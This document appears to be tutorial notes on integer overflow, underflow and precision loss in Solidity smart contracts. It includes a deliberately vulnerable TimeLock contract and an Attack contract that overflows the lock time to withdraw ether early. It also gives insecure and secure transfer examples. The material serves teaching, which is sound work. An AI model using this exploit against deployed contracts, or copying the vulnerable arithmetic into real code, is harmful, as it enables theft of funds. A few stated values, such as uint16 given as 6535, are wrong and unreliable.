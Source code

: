 In Solidity, integers types have maximum values.
**uint8 => 255 | uint16 => 6535 | uint256 => 2^256-1**
 
They can occur when you exceed the maximum value or when you go below them. When you exceed the maximum value, you go back to 0, and when you go below the minimum value, it brings you back to the maximum value.
 
Older contracts often made use of `SafeMath library`, to avoid over/underflows, but in Solidity >= v0.8.0 SafeMath logic is built in by default.
We use `unchecked{}` keyword in Solidity version 0.8.0 and above. If we don;t use it, the transaction will fail.

**Integer Overflow** occurs when a number is too big. The part that exceeds the maximum range is count from 0 again, sou you end up with a number that is smaller than you started with.

**Integer Underflow** - when a number is smaller thatn the minimum range it start count back from the maximum number and you end up with number that is greater than what you started with.

```php
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.8;

contract SafeMathTester{
	uint8 public bigNumber = 255;
	
	function add() public {
		bigNumber = bigNumber + 1; // after executing this function 255 will become 0, because it overflows the maximum number of uint8(255). In 0.6.0 version numbers are `unchecked`. if it's on 0.8.0 version or higher it will revert the transaction automatically.
	}
}
```
****
```php
// SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

/*//////////////////////////////////////////////////////////////
                            OVERFLOW
//////////////////////////////////////////////////////////////*/

contract Overflow {
    uint8 public count;
    // uint8 has a max value of 255, so if we add 1 to 255, we get 0 if it's unchecked!
    // Versions prior to 0.8 of solidity also have this issue
    function increment(uint8 amount) public {
        unchecked {
            count = count + amount;
        }
    }
}

/*//////////////////////////////////////////////////////////////
                            UNDERFLOW
//////////////////////////////////////////////////////////////*/

contract Underflow {
    uint8 public count;
    // uint8 has a min value of 0, but if we subtract 1 from 0, we get 255 if it's unchecked
    // Versions prior to 0.8 of solidity also have this issue
    function decrement() public {
        unchecked {
            count--;
        }
    }
}

/*//////////////////////////////////////////////////////////////
                            PRECISION LOSS
//////////////////////////////////////////////////////////////*/

contract PrecisionLoss {
    uint256 public moneyToSplitUp = 225;
    uint256 public users = 4;
    // This function will return 56, but we want it to return 56.25
    function shareMoney() public view returns (uint256) {
        return moneyToSplitUp / users;
    }
}
```

**Mitigation:** Newer version of Solidity, usage of bigger `uints`.
> Use Math libraries, like OpenZeppelin's SafeMath
****
```php
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.6;

// This contract is designed to act as a time vault.
// User can deposit into this contract but cannot withdraw for atleast a week.
// User can also extend the wait time beyond the 1 week waiting period.

/*
1. Deploy TimeLock
2. Deploy Attack with address of TimeLock
3. Call Attack.attack sending 1 ether. You will immediately be able to
   withdraw your ether.

What happened?
Attack caused the TimeLock.lockTime to overflow and was able to withdraw
before the 1 week waiting period, because of overflow.
*/
import "SafeMath link";

contract TimeLock {
	using SafeMath for uint; // it will add extra function to uint data type that take care of over/under flows.

    mapping(address => uint) public balances; // amount of ETH that you deposit
    mapping(address => uint) public lockTime; // time at which you can withdraw

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks; // update your balance and set 1 week period
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // increase period of 1 week
        /*lockTime[msg.sender] = lockTime[msg.sender].add(_secondsToIncrease) - add comes from SafeMath library, and if you add too much, it will warn you, that will be overflowed */ 
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(block.timestamp > lockTime[msg.sender], "Lock time not expired");
        // check whether you deposit some ETH and if 1 week is expired or not
        // So, if you try to call this function before 1 week has passed since you deposited, you won't be able to withrdaw

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0; // withdraw

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) public {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable { } // store the withdrawn funds

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        timeLock.increaseLockTime(uint(-timeLock.lockTime(address(this)))); // overflow/ pass one week and withrdaw immediately
        timeLock.withdraw();
    }
}
```
****
### Insecure Arithmetic

```php
mapping (address => uint256) public balanceOf;

// INSECURE
function transfer(address _to, uint256 _value) {
    /* Check if sender has balance */
    require(balanceOf[msg.sender] >= _value);
    /* Add and subtract new balances */
    balanceOf[msg.sender] -= _value;
    balanceOf[_to] += _value;
}

// SECURE
function transfer(address _to, uint256 _value) {
    /* Check if sender has balance and for overflows */
    require(balanceOf[msg.sender] >= _value && balanceOf[_to] + _value >= balanceOf[_to]);

    /* Add and subtract new balances */
    balanceOf[msg.sender] -= _value;
    balanceOf[_to] += _value;
}
```

If a balance reaches the _maximum uint value (2^256)_ it will circle back to zero which checks for the condition. This may or may not be relevant, depending on the implementation. Think about whether or not the `uint` value has an opportunity to approach such a large number. Think about how the `uint` variable changes state, and who has authority to make such changes. If any user can call functions which update the `uint` value, it's more vulnerable to attack. If only an admin has access to change the variable's state, you might be safe. If a user can increment by only 1 at a time, you are probably also safe because there is no feasible way to reach this limit.